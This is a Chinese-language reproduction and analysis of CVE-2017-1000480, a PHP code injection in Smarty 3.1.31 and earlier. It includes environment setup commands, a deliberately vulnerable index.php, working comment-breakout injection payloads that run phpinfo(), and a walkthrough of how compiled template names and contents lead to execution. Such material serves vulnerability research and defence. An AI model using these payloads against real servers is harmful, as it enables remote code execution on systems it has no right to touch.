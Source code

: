 # （CVE-2017-1000480）Smarty<=3.1.31 命令执行 RCE

> 原文：[http://book.iwonder.run/0day/Smarty/1.html](http://book.iwonder.run/0day/Smarty/1.html)

## 一、漏洞简介

在不清理模板名称的自定义资源上调用 fetch（）或 display（）函数时，3.1.32 之前的 Smarty 3 容易受到 PHP 代码注入的攻击。

## 二、漏洞影响

Smarty<=3.1.31、3.1.32-dev

## 三、复现过程

### 1、搭建环境

测试环境为： PHP5.6.40+Apache2+Smarty3.1.31+Debian9

```
➜  html mkdir smarty
➜  html cd smarty
➜  smarty mkdir cache compile templates
➜  smarty composer require smarty/smarty -v
➜  smarty sed -i -e 's/\^3.1/3.1.31/g' composer.json
➜  smarty composer update
➜  smarty sudo chmod -R 777 . 
```

/var/www/html/smarty/index.php 如下：

```
<?php
require './vendor/autoload.php';

class Smarty_Resource_Widget extends Smarty_Resource_Custom
{
    protected function fetch($name, &$source, &$mtime)
    {
        $template = "Smarty <=3.1.31 RCE (CVE-2017-1000480)";
        $source = $template;
        $mtime = time();
        return 'mochazz';
    }
}

$smarty = new Smarty();
$smarty->setCacheDir('cache');
$smarty->setCompileDir('compile');
$smarty->setTemplateDir('templates');

$my_security_policy = new Smarty_Security($smarty);
$smarty->enableSecurity($my_security_policy);
$smarty->registerResource('username', new Smarty_Resource_Widget());
$smarty->display('username:'.$_GET['mochazz']);

?> 
```

### 2、漏洞分析

具体攻击 payload 如下：

```
http://0-sec.org/index.php?mochazz=*/phpinfo();/* 
```

![image](img/03969ef61541a0e7758c428dbe33856d.png)

我们直接从 display 方法开始跟进，会发现其最终会调用 render 方法。在 render 方法分别进行了：生成 compile 文件名、写入 compile 文件并包含两个操作。

![image](img/4a8bbdfa700c7fa2466a635aaf7944fb.png)

在第一个操作：生成 compile 文件名时，我们传入 display 的参数会影响最终的 compile 文件名。例如下面两个 payload 生成的文件名是不一样的。

```
# 代码：$smarty->display('username:'.$_GET['mochazz']);

# payload1：http://0.0.0.0/smarty/index.php?mochazz=*/phpinfo();/*
4f97532c32c10229713a39421c918cf16663bf6e_0.username.*.php

# payload2：http://0.0.0.0/smarty/index.php?mochazz=*/phpinfo();//
1e95a2d156a7edd4f6130643849a588dce4acb27_0.username.phpinfo();.php 
```

这是因为 compile 文件名中，有一部分由 basename($source->name) 决定，这部分就是我们传入的 mochazz 参数。使用上面第一个 payload 时，文件名就会包含 *号。在 Linux 系统下，文件名允许包含* 号，但是 Windows 却不允许，这也是网络上部分文章说这个漏洞无法在 Windows 平台下利用。但是我们使用第二个 payload ，两个平台就都可以利用。

我们接着看第二个操作：写入 compile 文件并包含。首先，写入 compile 文件中的内容包含模板路径（即下图最后一行代码 $_template->source->filepath ），这个模板路径就是我们传入 display 方法的参数。虽然该参数被注释包裹，但是我们可以用 */ 闭合。写入 compile 文件，程序就开始包含该文件，最终导致代码执行（下图第 137 行）。

![image](img/f3ed228b58fc08319ea7868d4b7fa6d3.png)

